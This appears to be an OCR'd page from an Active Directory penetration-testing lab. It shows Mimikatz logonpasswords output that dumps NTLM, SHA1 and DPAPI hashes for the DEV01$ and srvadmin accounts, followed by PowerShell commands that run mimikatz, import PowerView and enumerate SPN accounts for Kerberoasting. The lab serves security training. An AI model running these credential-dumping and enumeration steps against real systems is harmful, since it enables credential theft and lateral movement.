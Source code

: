 ```
         [00000003] Primary
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : ef6a3c65945643fbd1c3cf7639278b33
         * SHA1     : a2cfa43b1d8224fc44cc629d4dc167372f81543f
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : DEV01$
Domain            : INLANEFREIGHT
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:32 PM
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : DEV01$
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 1284140 (00000000:0013982c)
Session           : Interactive from 1
User Name         : srvadmin
Domain            : INLANEFREIGHT
Logon Server      : DC01
Logon Time        : 6/28/2022 3:46:05 PM
SID               : S-1-5-21-1666128402-2659679066-1433032234-1107
        msv :
         [00000003] Primary
         * Username : srvadmin
         * Domain   : INLANEFREIGHT
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
         * DPAPI    : 64fa83034ef8a3a9b52c1861ac390bce
        tspkg :
        wdigest :
         * Username : srvadmin
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : srvadmin
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 70647 (00000000:000113f7)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 6/28/2022 3:33:33 PM
```

[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> Import-Module .\PowerView.ps1
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> get-domainuser -spn | select samaccountname
[DEV01]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\Public> get-domainuser -spn | select samaccountname